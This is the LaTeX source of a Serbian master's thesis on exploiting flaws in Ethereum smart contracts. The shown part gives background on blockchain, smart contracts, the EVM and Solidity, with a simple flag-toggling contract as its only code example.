\documentclass[a4paper,12pt, master]{etf}
\usepackage[intlimits]{amsmath}
\usepackage{amsmath, amsfonts, amssymb, graphicx}
\usepackage[utf8]{inputenc}
\usepackage[serbian]{babel}
\usepackage[T1]{fontenc}
\usepackage{fancyvrb}
\usepackage{listings}
\graphicspath{ {./images/} }
\usepackage[section]{placeins}

\lstdefinestyle{codeStyle}{
    %breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    %keepspaces=true,                 
    numbers=left,                    
    %numbersep=5pt,                  
    %showspaces=false,                
    %showstringspaces=false,
    %showtabs=false,
    columns=fullflexible,
    tabsize=2,
    basicstyle=\ttfamily,
    frame=single
}

\lstset{style=codeStyle}

\addto\captionsserbian{%
\renewcommand{\bibname}%
{Literatura}%
}

\title{Eksploatacija propusta u pametnim ugovorima}
\author{Nikola Todorović}
\date{April 2022}
\mentor{prof. dr. Pavle Vuletić}
\indeks{2016/0392}

\begin{document}
\maketitle

\begin{abstract}
    Naglim razvojem blokčejn tehnologija, pametni ugovori dobijaju mnogo širu upotrebu. Transakcije sa velikom količinom novca se oslanjaju na jednom napisane pametne ugovore i iz tih razloga jako je bitno postarati se da ne postoje propusti u korišćenim pametnim ugovorima.
    U priloženom radu je obavljena analiza najpoznatijih propusta u pametnim ugovorima za Eterium koji su napisani korišćenjem Soliditi programskog jezika. Predstavljeno je nekoliko primera pametnih ugovora sa propustima i napadima koju su eksploatisali te propuste. Na kraju su predstavljeni alati detekciju propusta i preporuke za razvoj sigurnih pametnih ugovora.
\end{abstract}

\begin{keywords}
     Blokčejn, Pametni ugovori, Propusti, Eterium, Soliditi
\end{keywords}

\tableofcontents
\listoffigures
%\listoftables

\chapter{Uvod}

Jednom u nekoliko godina vidimo rođenje revolucionarnih tehnologija sa sposobnošću da poremete širok spektar poslovnih modela. Uz rastuću upotrebu mrežnih usluga i sve veći broj transakcija na mreži, korisnici moraju da veruju i zavise od trećih strana, kao što su banke i provajderi plaćanja. Zavisnost od trećih strana se može izbeći korišćenjem Blokčejn (eng. \textit{blockchain}) tehnologije. Blokčejn predstavlja digitalnu javnu knjigu transakcija (eng. \textit{distributed ladger}) kojoj svako može pristupiti, a da pritom tu knjigu niko ne kontroliše. Na taj način, blokčejn predstavlja distribuiranu bazu podataka koja sadrži rastuću listu transakcija koja je kriptografski zaštićena od upada i promene sadržaja \cite{blockejnsigurnost}.

Bitkoin (eng. \textit{Bitcoin}) je najpoznatiji i najkorišćeniji blokčejn, dnevno se izvrši u proseku 250 hiljada transakcija i preko milion majnera je zaduženo za pravljenje blokova sa transakcijama na Bitkoin mreži \cite{bitcoin_daily, bitcoin_miners}. Usled dominante uloge Bitkoina kao blokčejna sa primarnom namenom za finansijske transakcije, druge implementacije blokčejna pokušavaju da se istaknu sa drugačijim mogućnostima, a druga najznačajnija implementacija blokčejna je Eterium (eng. \textit{Ethereum}), koji ima sposobnost pokretanje aplikacija u distribuiranom okruženju. Ideja je jednostavno izbeći potpunu zavisnost od jednog entiteta za skladištenje i upravljanje ličnim i poslovnim podacima korisnika. Računarski programi koji mogu biti izvršeni od strane Eterium mreže računara bez potrebe za autoritetom od poverenja se nazivaju pametni ugovori (eng. \textit{Smart contracts}). 


U trenutku pisanja ovog rada, trenutna ukupna vrednost Etera - Eteriumove kriptovalute (eng. \textit{Ethereum market cap}) je oko 350 milijardi dolara od čega se približno 25\% nalazi u pametnim ugovorima \cite{eteriumvolume, scpercentage}. Zbog načina na koji funkcionišu i količine novca kojim se upravlja, nije dovoljno da se samo obezbedi korektno izvršavanje pametnih ugovora već je od velikog značaja da se pametni ugovori pišu na siguran način, vodeći računa da se ne uvede neki propust. Cilj ovog rada je da opiše propuste i načina na koji oni mogu da se ekspolatišu zato što njihovo poznavanje u velikoj meri može da pripomogne pisanju sigurnih pametnih ugovora.

U narednom poglavlju će se detaljnije objasniti koncept pametnih ugovora, predstaviti njihove karakteristike i različite upotrebe, da bi zatim bilo preciznije objašnjeno kako pametni ugovori funkcionišu na Eterium blokčejnu. U trećem poglavlju se vrši klasifikacija propusta prema tome na kom nivou se pojavljuju i objašnjavaju najpoznatiji propusti za svaki od tih nivoa. Četvrto poglavlje sadrži posebno osmišljene primere pametnih ugovora koji sadrže neke od propusta objašnjenih u trećem poglavlju, a uz svaki taj primer je implementiran drugi pametni ugovor koji eksploatiše propust u odgovarajućem primeru. Kroz poglavlja tri i četiri se iznose razne preporuke za sigurnije pisanje pametnih ugovora, ali glavni fokus na razvoj sigurnih pametnih ugovora je u poglavlju pet gde su objašnjene najznačajnije prakse u sigurnom razvoju. Na kraju, u šestom poglavlju su predstavljeni najkorišćeniji alati za detekciju propusta u pametnim ugovorima.

\chapter{Pametni ugovori}

Trenutno ne postoji zvanično usvojena definicija pametnih ugovora, a sam koncept je prvi put definisan sredinom devedestih godina prošlog veka. Nik Sabo (mađ. \textit{Nick Szabó}), američki naučnik, je 1994. godine definisao pametne ugovore kao kompjuterizovani transakcioni protokol koji izvršava uslove nekog ugovora \cite{niksabo}. U narednih dvadeset godina postojalo je nekoliko pokušaja da se realizuje ova zamisao, ali tek nakon pojave blokčejna je ovaj koncept dobio širu prihvaćenost i upotrebu. Međutim, iako je Bitkoin imao mogućnost izvršavanja pametnih ugovora, smatra se da je Eterium blokčejn glavni pokretač i zaslužan za široku upotrebu pametnih ugovora. Stoga prema današnjoj upotrebi pametni ugovor možemo definisati kao izvršni kod koji se pokreće na blokčejnu kako bi se olakšale, izvršile i primenjivale odredbe sporazuma. Glavni cilj pametnog ugovora je da se automatski izvršavaju uslovi sporazuma nakon što se ispune navedeni uslovi \cite{blockejnsigurnost}.

\section{Karakteristike pametnih ugovora}

Pametni ugovori obično rade tako što upravljaju svojim unutrašnjim stanjem koristeći model mašine stanja. Stanje ugovora se dalje unapređuje na osnovu nekih unapred definisanih kriterijuma i uslova. Kako bi se što bolje definisala stanja i uslovi važno je znati neke bitne karakteristike koje pametan ugovor mora ili bi bilo poželjno da ispunjava. Karakteristike koje su opcione za različite implementacije pametnih ugovora je nešto što programer mora imati na umu prilikom razvoja, ukoliko se zanemare neke od dostupnih karakteristika može se doći do pravljenja nepouzdanih i neoptimalnih pametnih ugovora.

\subsubsection{Izvršivost na računaru}
Prva i najbitnija karakteristika pametnih ugovora jeste njihova sposobnost da se izvršavaju na računaru. Sami ugovori mogu biti napisani na mašinskom jeziku ili nekom jeziku koji je bliži programeru, ali bitno je da se na kraju taj ugovor može prevesti u instrukcije koje su razumljive i izvršive od strane računara.

\subsubsection{Automatska izvršivost}
Za pametne ugovore je jako bitno da poseduju mogućnost automatskog izvršavanja nekih akcija onog trenutka kada su određeni uslovi ispunjeni. Na taj način se eliminiše učešće treće strane ili arbitra u realizaciji pojedinih stavki ugovora. Međutim, zbog šire upotrebe za neke slučajeve upotrebe korisno je da pametni ugovori imaju i mogućnost ručnog aktiviranja.

\subsubsection{Sigurnost}
Pametni ugovori reaguju na transakcije na blokčejnu, mogu da čuvaju i upravljaju određenim novčanim sredstvima, samim tim su i štetne posledice mnogo veće ukoliko postoji propust u ugovoru. Generalno je sigurnost u razvoju softvera stavka visokog prioriteta, ali za pametne ugovore potrebno je da bude prioritet prvog nivoa uz funkcionalnosti samog ugovora, zato što pored sigurnosti novčanih sredstva koji se čuvaju u ugovoru, neophodna je i sigurnost da će se ugovor izvršiti kako je predviđeno.

\subsubsection{Nepromenljivost}
Ova osobina je obezbeđena od strane blokčejna, objavljivanjem koda pametnog ugovora na blokčejn garantuje se da sam ugovor neće biti izmenjen i da će se njegova stanja menjati prema definisanim pravilima u ugovoru.

\subsubsection{Nezaustavljivost}
Za učesnike u dogovoru garancija da će stavke ugovora biti izvršene ako se ispune uslovi je jako bitna, ovo se određuje na nivou implementacije i ukoliko korisnici žele da se izvršavanje ugovora prekine u nekom trenutku, pametan ugovor se mora dovesti u stanje koje će se definisati pre objavljivanja pametnog ugovora na blokčejn. Na taj način ugovor će dostizati samo predviđena stanja i neće biti moguće da se zaustavi njegovo izvršavanje osim ako ugovor ne uđe u to korisnički predefinisano stanje.

\subsubsection{Primenljivost}
Poznat je širok opseg primene pametnih ugovora i različiti scenariji upotrebe će biti predstavljeni u narednom potpoglavlju.

\section{Upotrebe pametnih ugovora}

Pametni ugovori imaju potencijal da postignu mnogo širu primenu u funkcionisanju ljudskog društva, a ne samo da zamene trenutne pravne i poslovne ugovore sa kojima smo svi upoznati. U nastavku ove sekcije biće naveden različite oblasti sa primerima upotrebe pametnih ugovora sa ciljem da se čitaocu približi značaj i primenljivost ove tehnologije.

\paragraph{Nekretnine:}Iznajmljivanje stana se može regulisati pametnim ugovorom uzmeđu stanodavca i stanara, pametan ugovor bi imao funkcionalnost automatskog podizanja sredstava sa računa stanara i isplaćivanje stanodavcu.
\paragraph{Aukcije:}Vrlo je lako implementirati pametan ugovor koji će prihvatati ponude za neki NFT (nezamenljivi token - eng. \textit{Non-Fungible Token}) dok se ne ispune uslovi, i onda obezbediti da onaj ko je dao najvišu ponudu, dobije NFT, a prodavac dobije novac i sve to bez plaćanja provizija trećem licu.
\paragraph{Testament:}Pametan ugovor može garantovati vlasniku da će se njegove želje ispuniti i da će se njegova novčana sredstva rasporediti onako kako je on to želeo.
\paragraph{Kampanje za prikupljanje novca:}Korišćenjem pametnih ugovora se može realizovati kampanja za prikupljanje novca koja u slučaju da se ne prikupi dovoljno novca za određeno vreme, korisnicima vraća uložena sredstva, a ukoliko se prikupi onda prebacuje sredstva na određenu adresu.
\paragraph{Elektronsko glasanje:}Moguće je koristiti pametne ugovore za upravljanje izbornim procesom i beleženje glasova na blokčejnu.
\paragraph{Upravljanje lancem snabdevanja:}Pametni ugovori mogu da se koriste za beleženje na blokčejnu svih aktivnosti u lancu snabdevanja i na taj način obezbedi proverljivost i sigurnost celog procesa snabdevanja.
\paragraph{Digitalni identitet:}Moguće je napisati pametne ugovore koje će izdavati digitalne identite za različite upotrebe.
\paragraph{Pametna električna mreža:}Vlasnicima solarnih panela bi se olakšala prodaja viška proizvedene električne energije automatizovanjem mikro-transakcija korišćenjem pametnih ugovora.


\section{Eterium}

Iako je Bitkoin najpoznatiji blokčejn i najzaslužniji je za popularizaciju blokčejn tehnologije, Eterium (eng. \textit{Ethereum}) kao druga najpoznatija platforma je omogućio pravljenje velikog broja decentralizovanih aplikacija nad pametnim ugovorima i približno 20 miliona pametnih ugovora se trenutno nalazi na Eterium platformi, sa stotinama miliona transakcija između korisnika \cite{eyhoff_priny_rose}. Zahvaljujući Eteriumu otvara se novi prostor za razvoj distribuiranih aplikacija i rešavanje poslovnih izazova na nove načine. Sam razvoj je značajno olakšan, a postojanje velike mreže daje garancije da ne može doći do nepredviđenih manipulacija.

Jedan od programera koji su bili uključeni u razvoj Bitkoina, Vitalik Buterin (eng. \textit{Vitalik Buterin}) je 2013. godine objavio rad sa nazivom Eterium, a dve godine kasnije uz pomoć suosnivača Gevina Vuda (eng. \textit{Gavin Wood}), Čarlsa Hoskinsona (eng. \textit{Charles Hoskinson}) i Entonija Dai Iorija (eng. \textit{Anthony Di Iorio}) je objavljena prva verzija Eteriuma pod nazivom Frontir (eng. \textit{Frontier}). Iako je prva verzija objavljena svega 6 godina nakon Bitkoina koje je imao određenu podršku za pametne ugovore, to nije sprečilo Eterium mrežu da se brzo razvije i zauzme vodeću ulogu u svetu pametnih ugovora.

Eterium ima svoju kriptovalutu pod nazivom Eter i koristi distribuiranu knjigu transakcija (eng. \textit{distributed ledger}) kako bi održavao bazu svih transakcija poput svih ostalih mreža baziranih na blokčejnu. Pored regularnih transakcija, Eterium poseduje podršku za pametne ugovore, a pošto oni imaju određenu ekonomsku vrednost, jako je bitna garancija da će se njihovo izvršavanje obaviti korektno. Iz tog razloga, Eterium se ne oslanja na centralni autoritet, već se svaka transakcija procesuira u velikoj mreži međusobno nepoverljivih čvorova koji se nazivaju majneri (eng. \textit{miners}). Majneri grupišu sve transakcije u blokove i pokušavaju da ih dodaju na blokčejn kako bi za uzvrat dobili nagrade. Samo oni blokovi koji zadovoljavaju sve uslove mogu biti uključeni u blokčejn, a jedan od tih uslova je da su rešili relativno tešku \textit{proof-of-work} zagonetku, koja zavisi od prethodnog bloka i transakcija u novom bloku. Težina zagonetke se dinamički prilagođava tako da je prosečno vreme potrebno da se napravi novi blok 12 sekundi, što je značajno brže u odnosu na 10 minuta koji su potrebni za Bitkoin blok.

Eterium mreža je već dve godine u procesu prelaska na \textit{proof-of-stake} (skr. PoS) mehanizam, prema kome se odluka o uključivanju bloka u lanac donosi donosi od strane validatora. Validator se postaje tako što se založi minimum 32 Etera i on ima dužnost da proveri svaki blok koji se predloži za uključivanje u lanac, a onda kada bude nasumično odabran, validator je dužan i da napravi blok. Validatori su zamena za majnere i ukoliko validator ne ispuni svoju dužnost ili pokuša da učini nešto maliciozno, biće kažnjen oduzimanjem dela ili svih založenih Etera. Konačni prelazak na PoS mehanizam je bio očekivan u junu 2022. godine, ali je odložen i očekuje se do kraja 2022. godine da će se desiti, a do tad će se koristiti \textit{proof-of-work} mehanizam \cite{eth2, ethpos}.

Čvorovi u mreži moraju da sadrže EVM (Eterium Virtuelnu Mašinu) koja predstavlja okruženje u kom će se izvršiti sve transakcije pre nego što budu uključene u blok. Način funkcionisanja EVM će biti prikazan u narednoj sekciji. Korisnici mogu da šalju transakcije na Eterium mrežu kako bi:
\begin{enumerate}
    \item Napravili novi ugovor
    \item Pozvali funkciju nekog ugovora
    \item Prebacili Eter sa jednog naloga na drugi
\end{enumerate}
Naknade za izvršenje (eng. \textit{execution fees}) postoje za svaku transakciju koju korisnik želi da pošalje na mrežu i one služe kako bi se majneri nagradili za njihovo izvršavanje i formiranje blokova. Naknade su definisane kroz gas i cenu gasa (eng. \textit{gas price}). Za svaku transakciju se definiše granica koliko gasa je spremno da se izdvoji za izvršavanje transakcije i cena po jedinici gasa, što je cena po jedinici veća to je veća šansa da će majneri uključiti tu transakciju u blok. Ukoliko je transakcija uspešno izvršena u EVM, sav preostali alocirani gas se vraća pozivaocu, ali ako je neuspela transakcija onda je pozivaoc izgubio sav uloženi gas.

\begin{figure}[htb]
\centering

\includegraphics[width=\textwidth]{2acc.png}
\caption{\emph{Tipovi naloga na Eteriumu} \cite{ilustracije}}
\label{fig:acc}
\end{figure}

Nalozi ili računi (eng. \textit{Accounts}) su jedan od ključnih pojmova u mreži i svaki nalog ima asociranu 160-bitnu adresu koja se predstavlja sa 20 heksadecimalinih karaktera, npr.  0x71C7656EC7ab88b098defB751B7401B5f6d8976F. Kao što je prikazano na slici \ref{fig:acc}, Eterium mreža pravi razliku između dva tipa naloga: nalozi u spoljnom vlasništvu i ugovorni nalozi, svaka adresa na eterium mreži može biti asocirana sa jednom od ova dva tipa naloga i adrese za oba tipa naloga dele isti adresni prostor. Nalozi po spoljnom vlasništvu su obični nalozi koji se kontrolišu privatnim ključem. Oni poseduju balans i \textit{nonce}, koriste ih korisnici Eterium mreže koji žele da: čuvaju i razmenjuju sredstva, kreiraju pametne ugovore i pozivaju funkcije iz pametnih ugovora. Ugovorni nalog nastaje kada korisnik korišćenjem spoljnog naloga inicijalizuje kreiranje pametnog ugovora na Eterium mreži i koristi se od strane pametnog ugovora koji je vlasnik tog naloga, on ima dodatno pokazivače na skladište i programski kod pametnog ugovora. Jedan korisnik može da ima više spoljnih naloga, a jedan pametan ugovor može da ima samo jedan ugovorni nalog.

\subsection{Eterium Virtuelna Mašina (EVM)}

Eterium Virtuelna Mašina (skr. EVM)(eng. \textit{Ethereum Virtual Machine}) je decentralizovano okruženje za izgradnju i upravljanje pametnim ugovorima. Svrha EVM je da utvrdi celokupno stanje Eterium mreže za svaki pojedinačni blok, stanje cele mreže predstavlja skup svih stanja adresa na mreži. Na slici \ref{fig:eth_states} je prikazano kako se jednom transakcijom menja stanje dve Eterium adrese.

\begin{figure}[htb]
\centering

\includegraphics[width=\textwidth]{eth_states.png}
\caption{\emph{Promena stanja Eterium adresa} \cite{eth_states}}
\label{fig:eth_states}
\end{figure}

EVM se smatra kvazi Tjuring-potpunom mašinom, kvalifkator kvazi je zato što se izvršavanje programa ograničava gasom i na taj način sprečavaju beskonačne petlje. Ima jednostavnu stek baziranu arhitekturu sa veličinom kodne reči od 256 bita, a maksimalna veličina steka je 1024. Memorijski model je jednostavni niz bajtova kojima se pristupa preko 256-bitnih reči, a takođe poseduje i nezavisni model skladišta u kom se čuva stanje sistema. Skladište predstavlja niz 256-bitnih polja. Sve lokacije u memoriji i skladištu su inicijalno postavljene na nulu \cite{gavin}.

Mašina ne prati standardnu Fon Nojman arhitekturu. Umesto čuvanja programskog koda u memoriji ili skladištu, kod se odvojeno čuva u virtuelnoj ROM memoriji iz koje se može čitati i upisivati korišćenjem isključivo specijalizovanih instrukcija \cite{gavin}.

\begin{figure}[htb]
\centering

\includegraphics[width=\textwidth]{evm.png}
\caption{\emph{Eterium virtuelna mašina} \cite{ilustracije}}
\label{fig:evm}
\end{figure}

Postoji nekoliko razloga za nepredviđeno izvršavanje bajtkoda u mašini, neki od njih su prekoračenje steka i nevalidne instrukcije. Poput izuzetka koji se baci usled nedostatka gasa (eng. \textit{out-of-gas exception}), instrukcije ne ostavljaju stanje nepromenjeno, već mašina zaustavlja svoje izvršavanje i prijavljuje problem izvršnom agentu (eng. \textit{execution agent}) koji se zatim pobrine da poništi rezultate izvršavanja do tog trenutka \cite{gavin}.

EVM Asembler je ljudski čitljiva forma EVM koda koji predstavlja bajtkod koji se izvršava od strane Eterium Virtuelne Mašine. Pošto je bajtkod teško razumljiv za pisanje i čitanje od strane programera, a ni asembler nije dovoljno jednostavan, izmišljeno je nekoliko programskih jezika višeg nivoa koji se prevode u EVM bajtkod. Trenutno su najpoznatiji: Soliditi, Serpent, LLL i Vajper (eng. \textit{Viper}).

\begin{figure}[htb]
\centering

\includegraphics[width=\textwidth]{codegen.png}
\caption{\emph{Generisanje EVM bajtkoda} \cite{ilustracije}}
\label{fig:codegen}
\end{figure}

\clearpage

\subsection{Soliditi programski jezik}

Soliditi (eng. \textit{Solidity}) je Tjuring potpun (eng. \textit{Turing complete}) programski jezik koji se koristi kao jezik visokog nivoa za definisanje pametnih ugovora na Eterium mreži. Soliditi je sličan Javaskriptu, uz značajne razlike što ima ugrađene konstrukte za interakciju sa Eterium platformom i predstavlja strogo tipiziran (eng. \textit{strongly-typed}) jezik. Programi napisani u Soliditi jeziku se prevode u netipizirani bajtkod koji se izvršava na Eterium platformi uz pomoć prethodno spomenute Eterium Virtuelne Mašine (EVM).

EVM bajtkod nema podršku za funkcije, pa \verb|solc| (Soliditi kompajler) prevodi pametan ugovor tako da se svaka funkcija jedinstveno identifikuje potpisom koji je baziran na imenu funkcije i tipovima parametara. Prilikom poziva funkcije, prosleđuje se njen potpis i ukoliko se pronađe odgovarajući kod za tu funkciju on se izvršava, u suprotnom se izvršava \verb|fallback| funkcija. Ova funkcija predstavlja specijalnu funkciju bez imena i parametara koju programer može da isprogramira i koja se izvršava kad se pošalje Eter ugovoru.

Soliditi poseduje tri različita konstrukta za pozivanje funkcija iz drugih ugovora, ali se svi oni prevode u istu bajtkod instrukciju, tako da je moguće isto ponašanje implementirati na više načina \cite{atzei}.

Glavna mana Soliditi jezika je to što je relativno mlada tehnologija i sa svakom novom verzijom se uvode značajne promene. Za svaku tehnologiju je potrebno vreme kako bi se identifikovali nedostaci, izgradila zajednica i napravila dokumentacija i materijali za učenje. Upravo sad je vreme kada Soliditi jezik sazreva iz ugla sigurnosti i ispravlja razne greške u dizajnu jezika koje su dovodile do nastanka propusta u pametnim ugovorima.

\subsection{Primer jednostavnog pametnog ugovora}

Upoznavanje sa pametnim ugovorima ćemo nastaviti kroz predstavljanje jednog pametnog ugovora napisanog u Soliditi programskom jeziku za Eterium platformu. Na segmentu koda 2.1 je predstavljen jedan jednostavan pametan ugovor koji čuva bulovu promenljivu i može da invertuje njenu vrednost. 

Prva linija u svakom ugovoru jeste linija na kojoj se navodi verzija prevodioca koja će se koristiti za prevođenje datog ugovora. Dalje možemo da vidimo da se koristi ključna reč \verb|contract| za definisanje pametnog ugovora, a sam ugovor ima jednu promenjivu stanja \verb|flag| i dve funkcije, jednu za dohvatanje vrednosti promenljive i jednu za invertovanje trenutne vrednosti. Na primeru koda 2.1 se može primetiti da se u pametnim ugovorima prosleđuju dodatni modifikatori za funkcije pored modifikatora vidiljvosti, konkretno u ovom primeru smo za funkciju \verb|getFlag| iskoristili \verb|view| modifikator da naznačimo da se neće menjati stanje ugovora i dodali koja je očekivani tip povratne vrednosti same funkcije.

\begin{lstlisting}[caption=Primer jednostavnog pametnog ugovora, label={lst:basic}]
pragma solidity ^0.8.10;

contract SimpleContract {
    bool public flag;

    function getFlag() public view returns (bool) {
        return flag;
    }

    function invert() public {
        flag = !flag;
    }
}
\end{lstlisting}


\begin{figure}[htb]
\centering

\includegraphics[width=\textwidth]{cycle.png}
\caption{\emph{Proces kreiranja ugovora} \cite{sc_attack_protections}}
\label{fig:cycle}
\end{figure}

Za inicijalizaciju jednostavnog pametnog ugovora na Eteriumu, izvršava se transakcija kreiranja, gde se ugovoru dodeljuje jedinstvena adresa i njegov kod se čuva na blokčejnu. Stvaralac ugovora mora da plati naknadu tj. gas za izvršavanje transakcije kreiranja ugovora koja ostavlja polje adrese primaoca prazno, a bajtkod pametnog ugovora smešta u \verb|data| polje. Nakon toga više nije moguće promeniti kod pametnog ugovora, a korišćenjem adrese pametnog ugovora bilo ko može da interaguje sa ugovorom tako što pozove ove dve javno dostupne funkcije, za svaki poziv potrebno je platiti naknadu. Visina naknade za kreiranje pametnog ugovora i poziva ka ugovoru se definiše od strane korisnika prilikom kreiranja transakcije, ukoliko korisnik postavi previše nisku naknadu za uključivanje transakcije u novi blok, ona će biti odbijena, a sama minimalna vrednost naknade zavisi od ukupnog broja transakcija koje konkurišu za sledeći blok i broja operacija koje treba da se izvrše pozivom funkcije. Prednost će dobiti one transakcije koje imaju višu naknadu koja je izražena kroz gas i cenu gasa.

\subsection{Okruženje za razvoj pametnih ugovora}

Za razliku od desktop aplikacija koje se izvršavaju na računaru ili veb aplikacija koje se izvršavaju na serveru, pametni ugovori se izvršavaju na decentralizovanoj mreži i jednom objavljen ugovor se ne može više modifikovati. Prethodno dve navedene stavke u značajnoj meri otežavaju razvoj pametnih ugovora i neophodno je malo drugačije okruženje za razvoj u odnosu na ono sa kojim smo upoznati u tradicionalnom razvoju softvera. Autor ovog rada će u ovoj sekciji predstaviti trenutno najkoršćenija okruženja, a kako je razvoj pametnih ugovora mlada oblast, relativno brzo se menjaju najznačajnija okruženja i pojavljuju neka nova sa drugačijim pristupom.

